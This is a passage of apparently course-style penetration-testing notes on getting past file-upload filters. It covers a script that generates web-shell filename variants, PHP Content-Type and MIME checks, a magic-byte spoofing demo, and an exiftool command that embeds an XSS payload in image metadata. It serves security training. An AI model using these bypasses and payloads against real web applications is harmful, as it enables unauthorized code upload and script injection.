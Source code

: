 ```bash
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
# Type Filters
## Content-Type
The following is an example of how a PHP web application tests the Content-Type header to validate the file type:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
###### Wordlist for Images
```wget
sudo wget https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt
```

```cat
cat content-type.txt | grep 'image/' > image-content-types.txt
```
## MIME-Type
`Multipurpose Internet Mail Extensions (MIME)` is an internet standard that determines the type of a file through its general format and bytes structure.
[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures)
[Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)
###### Determine MIME-Type
```shell
echo "this is a text file" > text.jpg 
file text.jpg 
```

```shell
echo "GIF8" > text.jpg 
file text.jpg
```
The following example shows how a PHP web application can test the MIME type of an uploaded file:
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
# Limited File Uploads
## XSS
```shell
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
